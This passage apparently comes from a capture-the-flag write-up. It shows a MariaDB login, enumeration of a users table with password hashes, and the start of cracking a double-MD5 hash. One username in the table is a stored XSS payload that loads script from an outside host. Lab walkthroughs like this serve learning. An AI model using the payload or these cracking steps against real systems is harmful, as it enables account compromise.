 Now that the database is accessible from our machine, we can connect to it, enumerate the tables, and retrieve the stored user hashes:

```console
$ mysql -u robots -pq4qCz1OflKvKwK4S -h 127.0.0.1 -D web
MariaDB [web]> show tables;
+---------------+
| Tables_in_web |
+---------------+
| logins        |
| users         |
+---------------+
2 rows in set (0.088 sec)

MariaDB [web]> select * from users;
+----+--------------------------------------------------+----------------------------------+---------+
| id | username                                         | password                         | group   |
+----+--------------------------------------------------+----------------------------------+---------+
|  1 | admin                                            | 3e3d6c2d540d49b1a11cf74ac5a37233 | admin   |
|  2 | rgiskard                                         | [REDACTED]                       | nologin |
|  3 | jxf                                              | 23056d662de462a5360374dc8a88cebf | guest   |
|  4 | <script src="http://10.8.64.79/xss.js"></script> | 66e60c2916e6875245aee4c9f3e1b3c1 | guest   |
+----+--------------------------------------------------+----------------------------------+---------+
4 rows in set (0.101 sec)
```

> Even though the `mysql` tool is not present in the container, you can still connect to and enumerate the database using simple `PHP` scripts from the container, instead of forwarding the port.
{: .prompt-tip }

### Cracking the Hash

Now that we have the hash for the `rgiskard` user, we can attempt to crack it. From the webserver, we recall that passwords had the format `md5(username+DDMM)`. Checking `login.php`, we see that passwords are hashed once more with `md5` before being compared to the hashes in the database. Therefore, while the password format is `md5(username+DDMM)`, the hashes in the database have the format `md5(md5(username+DDMM))`.

```console
www-data@robots:/var/www/html/harm/to/self$ cat login.php
...
if (isset($_POST['username'])&&isset($_POST['password'])) {
    $stmt = $pdo->prepare('SELECT * from users where (username= ? and password=md5(?) and `group` NOT LIKE "nologin")');
...
```

